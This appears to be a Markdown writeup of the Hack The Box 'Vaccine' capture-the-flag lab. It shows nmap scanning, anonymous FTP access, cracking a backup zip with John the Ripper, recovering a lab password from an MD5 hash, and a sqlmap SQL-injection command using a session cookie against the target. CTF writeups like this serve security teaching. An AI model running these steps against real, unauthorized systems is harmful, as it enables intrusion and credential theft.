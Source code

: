 ```yaml
---
date: 2024-11-17
categories:
    - Documentation
tags:
    - Hack The Box
    - CTF
    - SQL Injection
    - FTP
    - Sudo
    - PHP
---
```


# Vaccine Writeup
1) We spawn the target machine <TARGET_IP>
2) Enumerate target using Nmap 
   (-sV to give more details about the version)
```bash
nmap <TARGET_IP> -sV
```
![alt text](image.png)

We can see the open ports (21, 22, 80).

3) We try to login as anonymous (-a for anon login) to the ftp server
```bash
ftp <TARGET_IP> -a
```
![alt text](image-1.png)

We can see that there is a backup.zip, and we will get that using get command to download to our local
```
get backup.zip
```
![alt text](image-2.png)

The zip needs a password, and since we don't know it, we can try few common passwords or bruteforce using password cracking tools.

Here, I will use John The Ripper's zip2john :
```
zip2john backup.zip > backup_hash.txt
```
which processes the zip & extract the necessary hash
Then, we can use 
```
john backup_hash.txt --wordlist=/path/to/wordlist
```
![alt text](image-3.png)
Yay, we find the password !

Now, lets see whats inside the zip!
Unzip the zip first using
```
unzip backup.zip
```
and we will get a index.php and style.css
![alt text](image-4.png)

in the index.php, there is a md5 hashed password, we can decrypt it using online decryptor, and get the password **qwerty789** :D

Now, we can login to the target, and we can see a table in the dashboard. This might be connected to database, and we'll try to inject SQL injections.

To test if its injectable, we can use **sqlmap**

![alt text](image-5.png)

We will give our cookie for our sqlmap to authenticate & search the query

```
sqlmap -u 'http://<TARGET_IP>/dashboard.php?search=a' --cookie="PHPSESSID=<INSERT_COOKIE>"
```